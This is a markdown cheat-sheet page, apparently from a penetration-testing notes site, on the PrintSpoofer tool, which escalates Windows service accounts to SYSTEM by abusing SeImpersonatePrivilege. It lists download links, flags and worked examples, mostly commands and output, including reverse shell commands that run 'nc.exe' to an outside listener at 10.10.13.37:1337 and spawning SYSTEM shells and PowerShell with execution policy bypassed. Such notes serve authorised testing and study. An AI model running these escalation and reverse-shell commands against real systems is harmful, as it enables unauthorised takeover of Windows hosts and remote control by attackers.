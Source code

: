 ```yaml
---
title : "Printspoofer"
# pre : ' '
description : "From LOCAL/NETWORK SERVICE to SYSTEM by abusing SeImpersonatePrivilege on Windows 10 and Server 2016/2019."
date : 2021-06-21T14:57:31+02:00
# hidden : true
# draft : true
weight : 0
# tags : ['']
---
```


## Printspoofer

From LOCAL/NETWORK SERVICE to SYSTEM by abusing SeImpersonatePrivilege on Windows 10 and Server 2016/2019.

More info at [itm4n.github.io](https://itm4n.github.io/printspoofer-abusing-impersonate-privileges/)

### Installation

Download latest release from [Github.com](https://github.com/itm4n/PrintSpoofer/releases/tag/v1.0)

{{%attachments title="v1.0" fa_icon_class="far fa-file-code" pattern=".*(exe)"/%}}

### Usage

```plain
PrintSpoofer.exe [OPTIONS]
```

### Flags

```plain
PrintSpoofer v0.1 (by @itm4n)

  Provided that the current user has the SeImpersonate privilege, this tool will leverage the Print
  Spooler service to get a SYSTEM token and then run a custom command with CreateProcessAsUser()

Arguments:
  -c <CMD>    Execute the command *CMD*
  -i          Interact with the new process in the current command prompt (default is non-interactive)
  -d <ID>     Spawn a new process on the desktop corresponding to this session *ID* (check your ID with qwinsta)
  -h          That's me :)

Examples:
  - Run PowerShell as SYSTEM in the current console
      PrintSpoofer.exe -i -c powershell.exe
  - Spawn a SYSTEM command prompt on the desktop of the session 1
      PrintSpoofer.exe -d 1 -c cmd.exe
  - Get a SYSTEM reverse shell
      PrintSpoofer.exe -c "c:\Temp\nc.exe 10.10.13.37 1337 -e cmd"
```

### Usage 1: Spawn a SYSTEM process and interact with it

If you have an interactive shell, you can create a new SYSTEM process in your current console.

Use case: bind shell, reverse shell, `psexec.py`, etc.

```plain
C:\TOOLS>PrintSpoofer.exe -i -c cmd
[+] Found privilege: SeImpersonatePrivilege
[+] Named pipe listening...
[+] CreateProcessAsUser() OK
Microsoft Windows [Version 10.0.19613.1000]
(c) 2020 Microsoft Corporation. All rights reserved.

C:\WINDOWS\system32>whoami
nt authority\system
```

### Usage 2: Spawn a SYSTEM process and exit

If you can execute commands but you don't have an interactive shell, you can create a new SYSTEM process and exit immediately without interacting with it.

Use case: WinRM, WebShell, `wmiexec.py`, `smbexec.py`, etc.

Create a reverse shell:

```plain
C:\TOOLS>PrintSpoofer.exe -c "C:\TOOLS\nc.exe 10.10.13.37 1337 -e cmd"
[+] Found privilege: SeImpersonatePrivilege
[+] Named pipe listening...
[+] CreateProcessAsUser() OK
```

Netcat listener:

```plain
C:\TOOLS>nc.exe -l -p 1337
Microsoft Windows [Version 10.0.19613.1000]
(c) 2020 Microsoft Corporation. All rights reserved.

C:\WINDOWS\system32>whoami
nt authority\system
```

### Usage 3: Spawn a SYSTEM process on a desktop

If you are **logged on locally or via RDP** (including VDI), you can spawn a SYSTEM command prompt on your desktop. First, check your session ID with the command `qwinsta` and then specify this value with the option `-d`.

Use case: Terminal Session (RDP), VDI

```plain
C:\TOOLS>qwinsta
 SESSIONNAME       USERNAME                 ID  STATE   TYPE        DEVICE
 services                                    0  Disc
 console           Administrator             1  Active
>rdp-tcp#3         lab-user                  3  Active
 rdp-tcp                                 65536  Listen

C:\TOOLS>PrintSpoofer.exe -d 3 -c "powershell -ep bypass"
[+] Found privilege: SeImpersonatePrivilege
[+] Named pipe listening...
[+] CreateProcessAsUser() OK
```

### URL list

* [Github.com - PrintSpoofer](https://github.com/itm4n/PrintSpoofer)
* [itm4n.github.io - PrintSpoofer - Abusing Impersonation Privileges on Windows 10 and Server 2019](https://itm4n.github.io/printspoofer-abusing-impersonate-privileges/)
